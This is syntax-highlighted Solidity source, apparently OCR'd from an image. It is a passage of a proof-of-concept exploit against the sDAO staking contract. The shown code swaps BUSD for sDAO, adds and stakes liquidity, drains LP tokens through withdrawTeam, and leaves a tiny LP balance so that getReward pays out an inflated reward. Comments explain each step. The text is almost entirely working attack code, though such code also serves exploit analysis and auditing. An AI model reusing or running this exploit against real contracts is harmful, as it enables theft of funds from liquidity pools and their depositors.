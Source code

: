     <span style="color:rgb(142, 144, 140); font-weight:400;">// Swap 250 BUSD for sDAO</span>
    address[] memory path = <span style="color:rgb(137, 89, 168); font-weight:400;">new</span> address[](<span style="color:rgb(245, 135, 31); font-weight:400;">2</span>);
    path[<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>] = address(busd);
    path[<span style="color:rgb(245, 135, 31); font-weight:400;">1</span>] = address(sdao);

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
      <span style="color:rgb(245, 135, 31); font-weight:400;">250</span> ether,
      <span style="color:rgb(245, 135, 31); font-weight:400;">0</span>,
      path,
      address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>),
      block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
    );

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Swap half of our sDAO and all our remaining 250 BUSD for LP tokens</span>
    router.addLiquidity(
      address(sdao),
      address(busd),
      sdao.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)) / <span style="color:rgb(245, 135, 31); font-weight:400;">2</span>,
      <span style="color:rgb(245, 135, 31); font-weight:400;">250</span> ether,
      <span style="color:rgb(245, 135, 31); font-weight:400;">0</span>,
      <span style="color:rgb(245, 135, 31); font-weight:400;">0</span>,
      address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>),
      block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
    );

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Stake half of our LP tokens</span>
    sdao.stakeLP(busdsdao.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)) / <span style="color:rgb(245, 135, 31); font-weight:400;">2</span>);

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Transfer the remaining sDAO to the LP token address using</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// `transferFrom()`, required to get a higher totalStakeReward</span>
    sdao.transferFrom(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>), address(busdsdao), sdao.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)));

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Withdraw all the LP tokens to the TEAM</span>
    sdao.withdrawTeam(address(busdsdao));

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Transfer a tiny amount of our LP tokens to sDAO</span>
    busdsdao.transfer(address(sdao), <span style="color:rgb(245, 135, 31); font-weight:400;">0.013</span> ether);

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Now claim reward.</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">//</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// The `updateReward()` modifier will set `PerTokenRewardLast` to an a high</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// value since the amount of LP tokens left in the contract is so little.</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// This will cause us to get a huge reward.</span>
    sdao.getReward();
